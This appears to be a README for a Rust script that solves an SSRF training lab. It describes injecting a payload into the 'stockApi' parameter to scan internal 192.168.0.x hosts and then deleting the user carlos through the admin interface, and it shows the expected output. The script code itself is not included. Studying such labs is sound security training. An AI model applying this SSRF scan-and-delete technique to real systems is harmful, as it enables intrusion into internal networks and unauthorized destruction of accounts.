 # Hack Steps

1. Inject payload into 'stockApi' parameter to scan the internal network
2. Delete carlos from the admin interface

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
⟪#⟫ Injection point: stockApi
⦗1⦘ Injecting payload to scan the internal netwrok (192.168.0.15:8080/admin)..
⦗1⦘ Injecting payload to scan the internal netwrok (192.168.0.120:8080/admin)..
                            ....................
⦗1⦘ Injecting payload to scan the internal netwrok (192.168.0.218:8080/admin).. OK
⦗2⦘ Deleting carlos from the admin interface.. OK
🗹 Check your browser, it should be marked now as solved
```
